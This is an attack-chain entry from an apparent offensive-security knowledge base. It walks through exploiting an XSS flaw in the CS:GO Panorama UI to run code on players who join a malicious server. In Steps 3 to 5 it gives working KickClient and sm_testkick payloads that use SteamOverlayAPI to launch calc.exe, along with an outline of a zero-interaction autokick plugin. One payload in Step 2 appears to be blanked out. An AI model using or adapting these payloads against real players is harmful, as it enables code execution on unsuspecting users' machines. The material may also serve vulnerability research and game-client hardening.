

---
tags:
  - xss
  - rce
  - csgo
  - panorama
  - steam
  - gaming-exploit
type: attack_chain
tools:
  - '[[tools/grep]]'
  - '[[tools/unzipping-tool]]'
  - '[[tools/csgo-dedicated-server]]'
  - '[[tools/sourcemod]]'
  - '[[tools/metamod]]'
  - '[[tools/testkick-smx]]'
  - '[[tools/autokick-smx]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Persistence]]'
commands:
  - '[[commands/disconnect-with-html-payload]]'
  - '[[commands/kickid]]'
  - '[[commands/sm-kick]]'
  - '[[commands/sm-testkick-with-rce-payload]]'
  - '[[commands/kickclient-with-unlimited-payload]]'
  - '[[commands/kickclient-with-autokick-payload]]'
platforms:
  - Windows
  - 'CS:GO'
complexity: high
procedures:
  - '[[procedures/Extract-and-Identify-Panorama-UI-Vulnerabilities]]'
  - '[[procedures/Test-Local-HTML-Injection-in-Disconnect-Messages]]'
  - '[[procedures/Setup-Dedicated-Server-and-Test-Remote-Kick]]'
  - '[[procedures/Develop-SourceMod-Plugin-for-RCE-Testing]]'
  - '[[procedures/Create-Autokick-Plugin-for-Zero-Interaction-Exploit]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Exploitation for Client Execution]]'
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of XSS vulnerability in CS:GO Panorama UI to achieve remote code
  execution through malicious kick messages
skill_level: advanced
impact_level: high
id: 8ff2d956-5be2-48c2-b466-151e438c3f2b
created_at: '2025-12-14T00:11:25.226Z'
updated_at: '2025-12-14T00:11:25.226Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Persistence]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Exploitation for Client Execution]]'
  - '[[Exploit Public-Facing Application]]'
---
# CS:GO Panorama UI XSS Leading to Remote Code Execution via Kick Messages

Multi-stage attack chain exploiting an XSS vulnerability in the CS:GO Panorama UI framework to inject malicious HTML and JavaScript in kick/disconnect messages, leading to remote code execution on the victim's machine.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~30 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/grep]]
- [[tools/unzipping-tool]]
- [[tools/csgo-dedicated-server]]
- [[tools/sourcemod]]
- [[tools/metamod]]
- [[tools/testkick-smx]]
- [[tools/autokick-smx]]

### Target Environment

- Windows OS with CS:GO installed
- CS:GO dedicated server running SourceMod and Metamod
- Access to SteamOverlayAPI for code execution

### Initial Access Requirements

- Ability to run a malicious CS:GO server
- Victim connects to the server
- No prior credentials needed beyond server control

## Detailed Attack Procedures

### Step 1: Extract and Identify Vulnerabilities
procedure: [[procedures/Extract-and-Identify-Panorama-UI-Vulnerabilities]]

**Objective**: Extract Panorama UI files and search for vulnerable HTML parsing tags to identify XSS points.

**Instructions**: Use an [[tools/unzipping-tool]] to extract files from steamapps\common\Counter-Strike Global Offensive\csgo\panorama\code.pbin. Then, search with [[tools/grep]] for 'html="true"' in layout files.

```bash
grep -r 'html="true"' panorama/layout/
```

**Expected Output**: Identification of vulnerable files like popup_generic.xml and chat.xml.

**Success Indicators**:
- Vulnerable tags found in disconnect/kick popups
- Confirmation of raw HTML parsing

### Step 2: Test Local HTML Injection
procedure: [[procedures/Test-Local-HTML-Injection-in-Disconnect-Messages]]

**Objective**: Verify HTML injection locally using disconnect messages to confirm XSS.

**Instructions**: In the CS:GO client console, execute [[commands/disconnect-with-html-payload]] to test image loading:

```bash
disconnect ""
```

Run twice to bypass caching.

**Expected Output**: External image displays in disconnect popup.

**Success Indicators**:
- Image loads successfully
- HTML parsing confirmed

### Step 3: Setup Server and Test Remote Kick
procedure: [[procedures/Setup-Dedicated-Server-and-Test-Remote-Kick]]

**Objective**: Set up a dedicated server with SourceMod to test remote kick payloads.

**Instructions**: Install [[tools/csgo-dedicated-server]], [[tools/metamod]], and [[tools/sourcemod]]. Test kicks using [[commands/kickid]], [[commands/sm-kick]], and custom payloads like [[commands/sm-testkick-with-rce-payload]].

```bash
sm_testkick <a onmouseover="javascript:SteamOverlayAPI.OpenExternalBrowserURL('file://C:/Windows/System32/calc.exe')">The remote host stopped receiving communications and closed the connection</a>
```

**Expected Output**: Kick message displays with injectable HTML.

**Success Indicators**:
- Successful kick with payload
- Bypassing character limits

### Step 4: Develop Plugin for RCE Testing
procedure: [[procedures/Develop-SourceMod-Plugin-for-RCE-Testing]]

**Objective**: Create a SourceMod plugin to deliver unlimited payloads for RCE testing.

**Instructions**: Develop testkick.smx plugin and use [[commands/kickclient-with-unlimited-payload]] to kick with JS payload. Mouse over to trigger.

```bash
KickClient(client, "<a onmouseover=\"javascript:SteamOverlayAPI.OpenExternalBrowserURL('file://C:/Windows/System32/calc.exe')\">-------------------------\nBANNED\n-------------------------\n\nYour account has been banned from this community.\n\nThe ban is non negotiable</a>")
```

**Expected Output**: calc.exe opens on mouseover.

**Success Indicators**:
- JS executes via onmouseover
- RCE achieved

### Step 5: Create Zero-Interaction Exploit
procedure: [[procedures/Create-Autokick-Plugin-for-Zero-Interaction-Exploit]]

**Objective**: Develop autokick plugin for automatic RCE without user interaction.

**Instructions**: Create autokick.smx plugin that hooks player spawn and uses [[commands/kickclient-with-autokick-payload]] to fill screen with payload.

```bash
KickClient(client, "<a onmouseover=\"javascript:SteamOverlayAPI.OpenExternalBrowserURL('file://C:/Windows/System32/calc.exe')\">-------------------------\nBANNED\n-------------------------\n\nYour account has been banned from this community.\n\nThe ban is non negotiable</a>")
```

**Expected Output**: Automatic calc.exe execution on spawn.

**Success Indicators**:
- Exploit triggers without mouse interaction
- Full RCE on victim machine

## Attack Chain Summary

### Key Achievements

1. Identification of XSS in Panorama UI
2. Local and remote injection confirmation
3. RCE via SteamOverlayAPI

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploitation for Client Execution]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Persistence]]

*Last updated: 2023-10-01*
